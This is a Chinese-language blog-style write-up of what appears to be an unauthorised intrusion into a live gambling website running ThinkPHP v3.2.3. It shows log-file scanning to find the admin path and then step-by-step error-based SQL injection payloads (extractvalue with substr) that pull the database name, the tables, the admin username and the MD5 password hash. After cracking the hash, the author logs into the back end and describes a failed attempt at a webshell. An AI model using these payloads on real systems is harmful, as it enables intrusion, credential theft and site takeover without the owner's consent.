概述
目标环境为ThinkPHP v3.2.3,存在注入点报错注入（权限较低）但是无法用sqlmap跑，，改用手注得数据登录后台，想通过登录后台寻找其他上传点等getshell。但目前还仍那些，所以先记录下来，等随后继续做。
目标环境
从主站找到了活动页，通过报错看到了是ThinkPHP v3.2.3，也得到了网站的绝对路径等信息
/index.php?s=1

初步尝试
tp3的站没有RCE，我们得从日志、SQL注入、web页面等地方下手

不存在tp3框架的SQL注入，但扫到了2月份的日志文件，我们一边看目前扫到的日志文件，一边再扫描1月份的日志

1月份扫出来了大量的日志文件，通过日志可以确定后台目录为/dfsing.php，另外登录IP查了下就都是菲力宾的一个C段(真就BC人均菲律宾)

经过测试，后台登录处不存在弱口令、万能密码、SQL注入等，看来我们需要重新回到最开始的Web页面“优惠活动大厅”。直接申请进度查询测注入

获取数据
经典报错，存在注入，本想着直接丢sqlmap里面跑

无法正常跑注入，没办法手动报错注入得数据
查询当前数据库用户
1 | user_name=123'+and+(extractvalue(1,concat(0x7e,(select+user()),0x7e)))+or'1'='1--+ |
当前数据库用户为sql_target_com@localhost

查询当前数据库名称
1 | user_name=123'+and+(extractvalue(1,concat(0x7e,(select+database()),0x7e)))+or'1'='1--+ |
当前数据库名称为sql_target_com

查询表命
1 | username=123'+and+(extractvalue(1,concat(0x7e,(select+group_concat(table_name)+from information_schema.tables+where+table_schema='sql_target_com'),0x7e)))+or'1'='1--+ |
正好找到了cz_admin这个管理员表

查询字段
1 | user_name=123'+and+(extractvalue(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns+where+table_schema='sql_target_com'+and+table_name='cz_admin'),0x7e)))+or'1'='1--+ |

该报错注入最多只能显示32位，所以我们看到的数据并不够完整，修改我们的注入语句，可以使用substr()函数进行分割
1 | user_name=123'+and+(extractvalue(1,concat(0x7e,(select substr((select group_concat(column_name) from information_schema.columns where TABLE_SCHEMA='sql_target_com' and table_name='cz_admin'),1,30)),0x7e)))+or'1'='1--+ |
我们使用substr()分割后，每30个字符为区间增加去读字段名称，最后我们在140~170区间内成功读到

查username值
1 | user_name=123'+and+(extractvalue(1,concat(0x7e,(select * from (select username from cz_admin limit 0,1) as a),0x7e)))+or'1'='1--+ |
后台管理员账号为10086

查password值

密码为MD5加密，MD5总长度为32位，现在位数少一位，可以用上面方法substr()函数分割两次查询然后再合并
1 | user_name=123'+and+(extractvalue(1,concat(0x7e,(select substr((select password from cz_admin limit 0,1),0,30)),0x7e)))+or'1'='1--+ |
拼接得到完整的MD5解码等后台
后续

成功登入了后台，但是thinkphp v3.2.3后台修改网站标题为一句话连缓存文件拿shell的方法已经尝试但是失败了。目前还未想到其他办法拿shell，该站点记下来，等以后再继续尝试。